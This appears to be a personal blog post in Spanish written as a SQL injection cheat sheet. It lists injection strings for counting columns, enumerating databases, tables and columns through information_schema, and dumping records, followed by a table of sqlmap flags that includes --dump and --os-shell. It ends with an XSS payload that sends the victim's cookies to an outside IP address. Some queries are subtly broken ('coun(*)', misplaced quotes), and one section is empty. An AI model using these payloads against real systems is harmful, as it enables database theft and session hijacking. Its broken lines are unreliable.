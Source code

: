 ```yaml
---
layout: post
title: SQLi - CheetSheat
tags: [Linux,CheetSheat]
description: SQLi - CheetSheat
---
```


## Error Based

### Averiguar la cantidad de columnas

```
' ORDER BY 1-- -
' ORDER BY 2-- -
" ORDER BY 3-- -
" ORDER BY 4-- -
...
```

```
@@version
database()
load_file('<file>')
user()
```

### Enumerar Base de Datos

```
SELECT schema_name FROM information_schema.schemata
SELECT count(*) FROM information_schema.schemata
SELECT schema_name FROM information_schema.schemata LIMIT 0,1
SELECT schema_name FROM information_schema.schemata LIMIT 1,1
SELECT schema_name FROM information_schema.schemata LIMIT 2,1
```

### Enumerar tablas

```
SELECT count(*) FROM information_schema.tables WHERE table_schema='<database>'
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 0,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 1,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 2,1
```

### Enumerar columnas

```
SELECT count(*) FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database>"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 0,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 1,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 2,1"
```

### Extraer registros

```
SELECT x,x,x,coun(*),x FROM <database>.<table>
SELECT x,x,x,concat(<column>,0x3a,<column>,0x3a,<column>),x FROM <database>.<table>
```

----

## Blin SQL


## SqlMap

| argumento      | descripción |
|----------------|
| --url          | url |
| -p             | parámetro vulnerable |
| --cookie       | cookie de sesión |
|  --level       | nivel |
| --risk         | riesgo |
| --dbms         | motor de base de datos |
| --threads      | cantidad de hilos |
| --batch        | valores por defecto |
| --users        | extraer nombres de usuarios |
| --current-db   | DDBB que está utilizando |
| --current-user | usuario que está logueado |
| --dbs          | enumerar base de datos |
| -D             | seleccionar base de datos |
| --tables       | mostrar las tablas de la DDBB seleccionada |
| -T             | seleccionar tabla |
| --columns      | mostrar las columnas de la tabla seleccionada |
| --dump         | obtener información de la tabla |
| --os-shell     | obtenre shell |



## XSS

```
<script>document.write('<img src="http://10.9.102.237:8000/arc.jpg?cookie='+document.cookie+'">')</script>
```

